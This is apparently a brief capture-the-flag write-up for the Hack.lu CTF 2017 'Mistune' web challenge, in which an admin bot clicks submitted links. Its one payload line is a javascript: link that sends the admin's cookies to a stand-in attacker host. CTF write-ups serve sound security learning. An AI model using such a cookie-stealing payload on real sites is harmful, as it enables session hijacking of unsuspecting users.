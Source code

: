 ```yaml
---
layout: post
title: Hack.lu CTF 2017 - Mistune
categories: ctf_hacklu17
keywords: "web"
comments: true
authors:
    - chq-matteo
---
```

{{ page.date | date: "%B %-d, %Y" }}


1. We can send a message to the admin.
2. The admin clicks on the links and we have to steal his cookies.

The idea is to use javascript to redirect the admin to a website we control.  
We used one of the many free hosting sites
```js
<javascript:document.location='hello.myserver.com/?cookie='+document.cookies>
````
